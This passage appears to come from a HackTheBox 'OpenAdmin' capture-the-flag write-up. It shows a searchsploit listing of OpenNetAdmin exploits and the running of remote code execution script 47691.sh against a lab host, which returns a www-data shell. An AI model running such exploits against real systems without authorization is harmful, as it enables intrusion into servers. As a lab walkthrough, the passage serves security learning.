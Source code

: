 I find this application:

![](assets/images/2024-01-27-HTB-OpenAdmin-writeup-image-1.png)

I check exploitdb:
```bash
HTB searchsploit opennetadmin
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenNetAdmin 13.03.01 - Remote Code Execution                                                                                | php/webapps/26682.txt
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)                                                                 | php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                                                                                  | php/webapps/47691.sh
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Looks like there is an RCE for our version `18.1.1`

Let's run the exploit and get a shell!

```bash
HTB bash 47691.sh http://10.10.10.171/ona/
$ whoami
www-data
$ ls
config
config_dnld.php
dcm.php
images
include
index.php
local
login.php
logout.php
modules
plugins
winc
workspace_plugins
```